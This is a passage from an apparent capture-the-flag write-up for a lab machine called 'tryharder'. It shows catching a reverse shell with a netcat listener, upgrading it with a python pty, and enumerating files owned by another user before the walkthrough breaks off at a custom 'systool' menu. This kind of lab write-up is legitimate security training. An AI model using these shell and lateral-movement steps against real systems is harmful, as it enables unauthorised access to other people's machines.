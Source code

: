 Open a new listener and wait 1 minute to get a new shell as `backupmgr`, outside of the docker container.

~~~
$ rlwrap nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.144.133] 43678
bash: cannot set terminal process group (2532): Inappropriate ioctl for device
bash: no job control in this shell
backupmgr@tryharder:~/.ftp/files$ id
id
uid=1001(backupmgr) gid=1001(backupmgr) groups=1001(backupmgr)
backupmgr@tryharder:~/.ftp/files$ 
~~~

Let's immediatly upgrade our shell:

~~~
backupmgr@tryharder:~/.ftp/files$ python -c "import pty;pty.spawn('/bin/bash')"
~~~

## Lateral move (backupmgr -> jeff)

We are connected as `backupmgr`, but the user flag is in `jeff`'s home, that we don't have access to.

~~~
backupmgr@tryharder:~$ ls -l /home
ls -l /home
total 8
drwxr-xr-x 7 backupmgr backupmgr 4096 May 24 13:25 backupmgr
drwx------ 5 jeff      jeff      4096 May 18 16:09 jeff
~~~

Listing files owned by `jeff` reveals 2 interesting files:

~~~
backupmgr@tryharder:~$ find / -type f -user jeff 2>/dev/null
find / -type f -user jeff 2>/dev/null
/opt/systools/systool
/var/backups/jeff.bak
backupmgr@tryharder:~$ cat /var/backups/jeff.bak
cat /var/backups/jeff.bak
cat: /var/backups/jeff.bak: Permission denied
~~~

Reading `jeff.bak` would obviously help (likely containing information to switch to the user), but only `jeff` can read the file. On the other hand, running the `systool` executable will show a menu:

~~~
backupmgr@tryharder:/opt/systools$ ./systool
./systool
Welcome to Jeffs System Administration tool.
This is still a very beta version and some things are not implemented yet.
Please Select an option from below.
1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 
~~~
